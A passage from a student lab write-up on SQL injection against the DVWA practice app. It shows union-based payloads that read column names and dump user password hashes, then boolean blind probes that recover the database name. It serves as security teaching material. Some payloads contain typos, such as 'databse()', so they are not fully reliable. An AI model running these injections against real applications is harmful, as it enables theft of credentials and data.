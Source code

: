 ![5-src](/Users/shen/Desktop/网安实践/labs/Lab3/img/5-src.png)

We can see the tableName 'user', but the columnNames are still unkown, try to figure out.

Column names could be read from schema, and with 'union' we can make the extra info be returned with the normal query result. Input `1' union select database(), group_concat(column_name) from information_schema.columns where table_schema='root' and table_name='users' #`, and we can see the following result:

![5-getcolname](/Users/shen/Desktop/网安实践/labs/Lab3/img/5-getcolname.png)

From the second record, we can find there is a column called 'password', that must be what we need.

Input `1' union select first_name, password as last_name from users #`, we can get the encrypted password:

<img src="/Users/shen/Desktop/网安实践/labs/Lab3/img/5-res.png" alt="5-res" style="zoom:38%;" />

The decrypt result is as follows (the password of 'admin' has been changed in the previous step):

<img src="/Users/shen/Desktop/网安实践/labs/Lab3/img/5-plaintext.png" alt="5-plaintext" style="zoom:60%;" />

## 6 SQL Injection (Blind)

> You are supposed to steal 5 users’ passwords in the database through SQL injection (blind). You can achieve the goal through boolean-based SQL injection or time-based SQL injection.

1. Judge the type of the injection

   - Input `1` 
     Return `exists`
   - Input `1' and 1=1 #` 
     Return `exists`
   - Input `1' and 1=2 #`
     Return `MISSING`

   Thus, it's a char type injection.

2. Find the length of the database_name

   1. Input `1' and length(database())>8`, return `MISSING`.
      <img src="/Users/shen/Desktop/网安实践/labs/Lab3/img/6-gtt8.png" alt="6-gtt8" style="zoom:38%;" />
   2. Input `1' and length(database())>4`, return `MISSING`.
   3. Input `1' and length(database())>2`, return `exists`.
   4. Input `1' and length(database())>3`, return `exists`.

   Thus, the length of database_name is 4.

3. Find the name of database.
   As we have already know the length of the db_name, we can determine the chars one by one, take the first character for example:

   - `1' and ascii(substr(databse(),1,1))>96`, return `exists`.
   - `1' and ascii(substr(databse(),1,1))<123`, return `exists`.

   Thus, we can determine that $1^{st} \ char \in [a-z]$, by applying dichotomy, we find it equals to 'd'. And it's the same for the rest 3 chars.
   We can find that `db_name = 'dvwa'` at the end.
